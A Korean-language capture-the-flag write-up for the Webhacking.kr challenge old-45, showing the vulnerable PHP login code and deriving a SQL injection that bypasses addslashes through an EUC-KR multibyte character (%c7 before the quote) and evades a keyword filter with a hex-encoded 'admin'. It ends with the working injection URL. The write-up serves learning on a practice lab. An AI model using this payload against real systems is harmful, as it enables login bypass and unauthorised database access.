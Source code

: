 ```yaml
---
title: ["[Webhacking.kr] old-45 (sqli - 55)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, euc-kr]
---
```


```php
<?php
  if($_GET['id'] && $_GET['pw']){
    $db = dbconnect();
    $_GET['id'] = addslashes($_GET['id']);
    $_GET['pw'] = addslashes($_GET['pw']);
    $_GET['id'] = mb_convert_encoding($_GET['id'],'utf-8','euc-kr');
    if(preg_match("/admin|select|limit|pw|=|<|>/i",$_GET['id'])) exit();
    if(preg_match("/admin|select|limit|pw|=|<|>/i",$_GET['pw'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall45 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')"));
    if($result){
      echo "hi {$result['id']}";
      if($result['id'] == "admin") solve(45);
    }
    else echo("Wrong");
  }
?>
```  

`addslashes()` 함수는 `'`, `"`, `\`, `\0`와 같은 특수문자를 이스케이프 처리한다.  
`mb_convert_encoding()` 함수로 `id` 값이 `euc-kr`에서 `utf-8`로 변환된다.  


```sql
select id from chall45 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')
```  

`pw`는 `md5`하여 값을 비교하므로, 인코딩 변환을 이용해서 `id`에 인젝션을 해보자.  

```sql
select id from chall45 where id='1'or id like 0x61646d696e#' and pw=md5(123)
```  
`preg_match()` 함수를 통해 필터링 되는 문자를 피해서 위와 같은 쿼리문을 생각해볼 수 있다.  

문제는 `addslashes()`함수인데,  
`1'or id like 0x61646d696e#`이 `1\'or id like 0x61646d696e#`와 같이 이스케이프될 것이다.  

`mb_convert_encoding()`에 의해 euc-kr이 utf8로 변환되므로,  
유니코드 테이블에서 비어있는 값을 변환시키면 코드를 정상적으로 실행시킬 수 있을 것이다.  

`\`는 `%5c`이다. `C75C`-`FE5C` 모두 비어있으므로, `'` 앞에 `%c7`을 넣어보자.  

```
?id=1%c7'or+id+like+0x61646d696e%23&pw=123
```

